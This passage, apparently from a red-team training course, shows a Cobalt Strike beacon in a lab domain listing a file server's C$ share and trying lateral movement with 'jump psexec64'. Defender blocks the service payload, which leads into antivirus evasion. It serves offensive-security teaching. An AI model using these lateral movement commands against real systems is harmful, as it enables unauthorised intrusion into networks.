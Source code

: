 Even though dropping files to disk has a bad reputation, there are instances where it's fairly unavoidable if we want to use certain tactics.  For instance, we can show we have access to the File Server, but we can't PsExec to it because the service binary payload is being detected by Defender.
```
 beacon> ls \\fs.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/14/2022 15:44:51   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/14/2022 15:55:16   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/14/2022 15:59:23   ProgramData
          dir     09/14/2022 15:25:23   Recovery
          dir     09/14/2022 15:25:04   System Volume Information
          dir     09/14/2022 15:26:47   Users
          dir     09/14/2022 15:25:15   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/14/2022 16:00:25   DumpStack.log.tmp
 1gb      fil     09/14/2022 16:00:25   pagefile.sys

beacon> jump psexec64 fs.dev.cyberbotic.io smb
[-] Could not start service 633af16 on fs.dev.cyberbotic.io: 225
```

```
PS C:\Users\Attacker> net helpmsg 225
```
Operation did not complete successfully because the file contains a virus or potentially unwanted software.

If we copy the payload to our local desktop and check the associated log, we can see that the "file" was detected.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/bb4/e85/388/detection.png)
